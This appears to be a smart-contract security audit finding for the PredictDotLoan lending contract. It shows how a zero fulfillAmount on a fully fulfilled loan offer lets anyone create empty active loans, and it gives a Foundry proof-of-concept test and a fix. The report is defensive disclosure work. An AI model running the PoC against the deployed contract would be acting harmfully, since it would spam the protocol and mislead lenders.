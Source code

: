 Hot Carrot Jaguar

Medium

# A malicious user can create empty loans with the loan offer which is fully fulfilled

### Summary

The miss checking in a fully fulfilled loan allows a malicious user to create limitless empty loans, whose `lender` is a normal user. These empty loans can spam the frontend protocol if mishandled and mislead the unconscious `lender`.

### Root Cause

In validation logic, it only includes checks `_assertFulfillAmountNotTooLow()` and `_assertFulfillAmountNotTooHigh()` but not check whether the loan is already fully fulfilled.

https://github.com/sherlock-audit/2024-09-predict-fun/blob/main/predict-dot-loan/contracts/PredictDotLoan.sol#L1269-L1289

Zero `fulfillAmount` value can pass the check when a loan is fully fulfilled and used to create empty loans.

### Internal pre-conditions

Any valid and fully fulfilled loans.

### External pre-conditions

The frontend protocol has not taken this kind of spam attack into consideration.

### Attack Path

The malicious user calls `acceptLoanOffer()` with zero `fulfillment` and just needs to pay gas fee.

### Impact

The protocal will suffer from spam if empty loans are mishandled frontend. The `LoanStatus` of an empty loan is `Active` unlike others with zero debt. It can mislead the lender of empty loans to try `call()` and `seize()` but get nothing.

### PoC

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.25;

import {IPredictDotLoan} from "../../contracts/interfaces/IPredictDotLoan.sol";

import {PredictDotLoan_Test} from "./PredictDotLoan.t.sol";
import {MockEIP1271Wallet} from "../mock/MockEIP1271Wallet.sol";
import {MockUmaCtfAdapter} from "../mock/MockUmaCtfAdapter.sol";

contract PredictDotLoan_Bug_Test is PredictDotLoan_Test {
    function test_Bug() public {
        wallet = new MockEIP1271Wallet(lender);
        vm.label(address(wallet), "Lender's EIP-1271 Wallet");
        mockERC20.mint(address(wallet), LOAN_AMOUNT);
        vm.prank(address(wallet));
        mockERC20.approve(address(predictDotLoan), LOAN_AMOUNT);
        IPredictDotLoan.Proposal memory proposal = _generateLoanOffer(IPredictDotLoan.QuestionType.Binary);
        proposal.from = address(wallet);
        proposal.signature = _signProposal(proposal);
        _assertBalanceAndFulfillmentBeforeExecution(borrower, lender, proposal);
        _assertProposalAcceptedEmitted(predictDotLoan.hashProposal(proposal), borrower, address(wallet));
        vm.prank(borrower);
        predictDotLoan.acceptLoanOffer(proposal, proposal.loanAmount);

        // A malicous user "borrower2" with even no loan or CTF tokens.
        vm.startPrank(borrower2);
        mockCTF.setApprovalForAll(address(predictDotLoan), true);
        predictDotLoan.acceptLoanOffer(proposal, 0);
        vm.stopPrank();
    }
}
```

### Mitigation

Check whether a loan is fully fulfilled in the validation logic:

```diff
    function _assertFulfillAmountNotTooHigh(
        uint256 fulfillAmount,
        uint256 fulfilledAmount,
        uint256 loanAmount
    ) private pure {
-       if (fulfilledAmount + fulfillAmount > loanAmount) {
+       if (fulfilledAmount + fulfillAmount > loanAmount || fulfilledAmount == loanAmount) {
            revert FulfillAmountTooHigh();
        }
    }
```